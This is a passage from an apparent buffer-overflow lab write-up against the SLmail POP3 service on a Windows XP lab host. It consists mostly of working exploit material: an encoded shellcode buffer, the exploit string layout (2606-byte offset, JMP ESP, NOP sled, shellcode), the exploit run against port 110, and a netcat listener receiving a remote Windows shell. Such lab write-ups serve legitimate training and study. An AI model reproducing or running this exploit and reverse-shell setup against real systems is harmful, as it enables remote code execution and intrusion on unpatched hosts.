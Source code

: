 ```bash
buf += b"\x15\x73\xd0\xa3\xb1\xdf\x82\xca\xe0\x85\x65\xf2\xf2"
buf += b"\x65\xd9\x56\x79\x8b\x0e\xeb\x20\xc4\xe3\xc6\xda\x14"
buf += b"\x6c\x50\xa9\x26\x33\xca\x25\x0b\xbc\xd4\xb2\x6c\x97"
buf += b"\xa1\x2c\x93\x18\xd2\x65\x50\x4c\x82\x1d\x71\xed\x49"
buf += b"\xdd\x7e\x38\xdd\x8d\xd0\x93\x9e\x7d\x91\x43\x77\x97"
buf += b"\x1e\xbb\x67\x98\xf4\xd4\x02\x63\x9f\x1a\x7a\x49\xd5"
buf += b"\xf3\x79\x8d\xce\x0c\xf7\x6b\x7a\x03\x51\x24\x13\xba"
buf += b"\xf8\xbe\x82\x43\xd7\xbb\x85\xc8\xd4\x3c\x4b\x39\x90"
buf += b"\x2e\x3c\xc9\xef\x0c\xeb\xd6\xc5\x38\x77\x44\x82\xb8"
buf += b"\xfe\x75\x1d\xef\x57\x4b\x54\x65\x4a\xf2\xce\x9b\x97"
buf += b"\x62\x28\x1f\x4c\x57\xb7\x9e\x01\xe3\x93\xb0\xdf\xec"
buf += b"\x9f\xe4\x8f\xba\x49\x52\x76\x15\x38\x0c\x20\xca\x92"
buf += b"\xd8\xb5\x20\x25\x9e\xb9\x6c\xd3\x7e\x0b\xd9\xa2\x81"
buf += b"\xa4\x8d\x22\xfa\xd8\x2d\xcc\xd1\x58\x5d\x87\x7b\xc8"
buf += b"\xf6\x4e\xee\x48\x9b\x70\xc5\x8f\xa2\xf2\xef\x6f\x51"
buf += b"\xea\x9a\x6a\x1d\xac\x77\x07\x0e\x59\x77\xb4\x2f\x48"
```
Exploit is constructed as [OFFSET][JUMP ESP][NOPSLED][SHELLCODE] as seen below.
```python
exploit = 'A' * 2606 + jmpesp + '\x90' * 32 + shellcode
```

### 6. Exploit
Run the exploit.
```bash
┌──(kali㉿kali)-[~/Documents/bof]
└─$ ./exploit.py  
[+] Opening connection to 192.168.34.144 on port 110: Done
[*] +OK POP3 server h4ck3rz-1a3076c ready <00001.974015@h4ck3rz-1a3076c>
[*] +OK jack welcome here
```
Get the shell.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.144] 1059
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Program Files\SLmail\System>hostname
hostname
h4ck3rz-1a3076c

C:\Program Files\SLmail\System>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.34.144
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.34.2
```
